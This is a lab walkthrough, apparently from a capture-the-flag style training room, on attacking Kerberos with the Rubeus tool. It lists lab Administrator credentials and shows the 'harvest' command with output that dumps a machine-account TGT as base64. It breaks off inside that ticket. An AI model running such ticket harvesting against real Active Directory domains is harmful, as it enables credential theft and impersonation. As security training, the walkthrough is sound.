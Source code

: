 Username: Administrator
Password: P@$$W0rd
Domain: controller.local

Your Machine IP is 10.10.197.112

Rubeus is a powerful tool for attacking Kerberos. Rubeus is an adaptation of the kekeo tool and developed by HarmJ0y the very well known active directory guru.

Rubeus has a wide variety of attacks and features that allow it to be a very versatile tool for attacking Kerberos. Just some of the many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting.

The tool has way too many attacks and features for me to cover all of them so I'll be covering only the ones I think are most crucial to understand how to attack Kerberos however I encourage you to research and learn more about Rubeus and its whole host of attacks and features here - https://github.com/GhostPack/Rubeus

Rubeus is already compiled and on the target machine.

**Harvesting Tickets w/ Rubeus -**

Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.

1. cd Downloads - navigate to the directory Rubeus is in
2. Rubeus.exe harvest /interval:30 - This command tells Rubeus to harvest for TGTs every 30 seconds

![](https://i.imgur.com/VCeyyn9.png)

```
PS C:\Users\Administrator\Downloads> . .\Rubeus.exe harvest /interval:30

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Harvesting (with auto-renewal)
[*] Monitoring every 30 seconds for new TGTs
[*] Displaying the working TGT cache every 30 seconds


[*] Refreshing TGT ticket cache (11/24/2020 10:13:48 AM)

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL
  StartTime             :  11/24/2020 9:51:54 AM
  EndTime               :  11/24/2020 7:51:54 PM
  RenewTill             :  12/1/2020 9:51:54 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEEmsRC7+jJ99OVgZgCd8qWTwVAep5/lCAvc+d
    9CA91R/0H2Bbjxqhd3A3NXph4XMKQ98K+Q5IZyZEh1Vbb4t1BeXaZfvZsZ9198RzSMQy7TmUR3Bk2Wl3UiK5ZI3wEo980jhF9mYo
    j0tRTMEaf3KQ9tpZSNoYDIXa1by6ZuvLRxQIN/AWpWWwLxyGmYt5n3cV1kglUUHSfC17vjMT3G011TesjWl9Y8I05ccfUUCsPQhF
    cu/2T9bL02Hr6kZg28msIeKLz4A39d/9IEQJ7xqbSbMKFJSjbYtL9au0JDp6Dylkha/hY3F39ejI/nZ2Uo/QdKCDEDLIl+E7xOfU
```